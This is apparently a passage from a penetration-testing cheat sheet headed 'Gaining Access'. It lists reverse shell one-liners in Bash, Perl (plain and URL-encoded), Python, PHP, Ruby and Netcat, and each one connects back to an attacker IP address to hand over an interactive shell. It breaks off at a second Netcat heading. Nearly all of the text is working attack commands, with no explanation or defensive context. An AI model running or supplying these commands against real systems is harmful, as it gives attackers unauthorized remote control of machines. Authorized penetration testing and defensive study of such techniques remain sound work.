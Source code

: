 ## Gaining Access

### Reverse Shell One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux

```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat without -e \#1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### Netcat without -e \#2
